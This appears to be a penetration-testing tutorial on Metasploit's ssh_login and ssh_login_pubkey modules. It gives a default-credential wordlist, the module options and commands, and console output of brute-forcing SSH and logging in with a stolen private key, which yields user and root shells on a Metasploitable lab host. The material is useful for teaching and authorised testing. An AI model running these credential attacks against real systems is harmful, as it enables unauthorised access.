 # ssh_login

The ssh_login module is quite versatile in that it can not only test a set of credentials across a range of IP addresses, but it can also perform brute force login attempts. We will pass a file to the module containing usernames and passwords separated by a space as shown below.

```bash
root@kali:~# head /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
root
root !root
root Cisco
root NeXT
root QNX
root admin
root attack
root ax400
root bagabu
root blablabla
```
Next, we load up the scanner module in Metasploit and set USERPASS_FILE to point to our list of credentials to attempt.

```bash
msf > use auxiliary/scanner/ssh/ssh_login
msf auxiliary(ssh_login) > show options

Module options (auxiliary/scanner/ssh/ssh_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   PASSWORD                           no        A specific password to authenticate with
   PASS_FILE                          no        File containing passwords, one per line
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false            no        Try the username as the password for all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login) > set USERPASS_FILE /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
USERPASS_FILE => /usr/share/metasploit-framework/data/wordlists/root_userpass.txt
msf auxiliary(ssh_login) > set VERBOSE false
VERBOSE => false
```
- Manual setup
```bash 
set RHOSTS 0.0.0.0
set RPORT 0000
set USER_FILE /path/user.txt
set PASS_FILE /path/pass.txt
set STOP_ON_SUCCESS true
set VERBOSE true
exploit
```

With everything ready to go, we run the module. When a valid credential pair is found, we are presented with a shell on the remote machine.

```bash
msf auxiliary(ssh_login) > run

[*] 192.168.1.154:22 - SSH - Starting buteforce
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:25:18 -0600
[+] 192.168.1.154:22 - SSH - Success: 'msfadmin':'msfadmin' 'uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login) > sessions -i 1
[*] Starting interaction with 1...

id
uid=1000(msfadmin) gid=1000(msfadmin) groups=4(adm),20(dialout),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),107(fuse),111(lpadmin),112(admin),119(sambashare),1000(msfadmin)
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login) >
```
# ssh_login_pubkey

Using public key authentication for SSH is highly regarded as being far more secure than using usernames and passwords to authenticate. The caveat to this is that if the private key portion of the key pair is not kept secure, the security of the configuration is thrown right out the window. If, during an engagement, you get access to a private SSH key, you can use the ssh_login_pubkey module to attempt to login across a range of devices.

```bash
msf > use auxiliary/scanner/ssh/ssh_login_pubkey
msf auxiliary(ssh_login_pubkey) > show options

Module options (auxiliary/scanner/ssh/ssh_login_pubkey):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------

   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false            no        Add all users in the current database to the list
   KEY_PATH                           yes       Filename or directory of cleartext private keys. Filenames beginning with a dot, or ending in ".pub" will be skipped.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             22               yes       The target port
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for a host
   THREADS           1                yes       The number of concurrent threads
   USERNAME                           no        A specific username to authenticate as
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for all attempts

msf auxiliary(ssh_login_pubkey) > set KEY_FILE /tmp/id_rsa

KEY_FILE => /tmp/id_rsa
msf auxiliary(ssh_login_pubkey) > set USERNAME root
USERNAME => root
msf auxiliary(ssh_login_pubkey) > set RHOSTS 192.168.1.154
RHOSTS => 192.168.1.154
msf auxiliary(ssh_login_pubkey) > run

[*] 192.168.1.154:22 - SSH - Testing Cleartext Keys
[*] 192.168.1.154:22 - SSH - Trying 1 cleartext key per user.
[*] Command shell session 1 opened (?? -> ??) at 2010-09-09 17:17:56 -0600
[+] 192.168.1.154:22 - SSH - Success: 'root':'57:c3:11:5d:77:c5:63:90:33:2d:c5:c4:99:78:62:7a' 'uid=0(root) gid=0(root) groups=0(root) Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686 GNU/Linux '
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(ssh_login_pubkey) > sessions -i 1
[*] Starting interaction with 1...

ls
reset_logs.sh
id
uid=0(root) gid=0(root) groups=0(root)
exit
[*] Command shell session 1 closed.
msf auxiliary(ssh_login_pubkey) >
```











